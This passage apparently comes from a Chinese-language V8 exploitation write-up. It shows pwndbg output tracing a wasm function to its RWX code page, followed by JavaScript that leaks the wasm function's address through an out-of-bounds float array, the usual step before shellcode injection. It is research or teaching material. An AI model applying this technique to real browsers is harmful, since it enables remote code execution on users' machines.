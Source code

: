```c
 - kind: NormalFunction
 - function_map_index: 146
 - formal_parameter_count: 0
 - expected_nof_properties: 0
 - language_mode: sloppy
 - data: 0x022951ba14c9 <WasmExportedFunctionData>  <-------------------WasmExportedFunctionData
 - code (from data): 0x09aa45c42001 <Code JS_TO_WASM_FUNCTION>
 - function token position: -1
 - start position: -1
 - end position: -1
 - no debug info
 - scope info: 0x189327040c11 <ScopeInfo[0]>
 - length: 0
 - feedback_metadata: 0x189327042529: [FeedbackMetadata] in ReadOnlySpace
 - map: 0x1893270412c9 <Map>
 - slot_count: 0

pwndbg> job 0x022951ba14c9 
0x22951ba14c9: [WasmExportedFunctionData] in OldSpace
 - map: 0x189327045659 <Map[40]>
 - wrapper_code: 0x09aa45c42001 <Code JS_TO_WASM_FUNCTION>
 - instance: 0x022951ba1331 <Instance map = 0xa79bb209239> <---------------------instance
 - jump_table_offset: 0
 - function_index: 0
pwndbg> x/10gx 0x022951ba1330+0x88
0x22951ba13b8:	0x0000339f5e9d6000	0x000027a53898d861
0x22951ba13c8:	0x000027a53898dad1	0x0000022951b81851
0x22951ba13d8:	0x0000022951ba1459	0x00001893270404d1
0x22951ba13e8:	0x00001893270404d1	0x00001893270404d1
0x22951ba13f8:	0x00001893270404d1	0x000027a53898da51
pwndbg> telescope 0x022951ba1330+0x88
00:0000│   0x22951ba13b8 —▸ 0x339f5e9d6000 ◂— jmp    0x339f5e9d62c0 /* 0x441f0f000002bbe9 */
01:0008│   0x22951ba13c0 —▸ 0x27a53898d861 ◂— 0x2100000a79bb208c
02:0010│   0x22951ba13c8 —▸ 0x27a53898dad1 ◂— 0x2100000a79bb20a8
03:0018│   0x22951ba13d0 —▸ 0x22951b81851 ◂— 0x189327040f
04:0020│   0x22951ba13d8 —▸ 0x22951ba1459 ◂— 0x2100000a79bb209c
05:0028│   0x22951ba13e0 —▸ 0x1893270404d1 ◂— 0x1893270405
... ↓
pwndbg> vmmap 0x339f5e9d6000 
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x339f5e9d6000     0x339f5e9d7000 rwxp     1000 0      
pwndbg> p/x 0x022951ba1529-0x22951ba13b8
$2 = 0x171
```

所以定义完wasm_function后，通过定义一个mask标志来遍历查找wasm_function 对象的地址，进而获得保存wasm 代码内存页地址的指针。

```javascript
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

var obj = {mark: 1111222233334444, obj: wasm_function};
var float_obj_idx = 0;
for(let i=0; i < 0x400; i++)
{
	if(f2i(float_array[i]) == 0x430f9534b3e01560n){
		float_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(float_array[float_obj_idx])));
```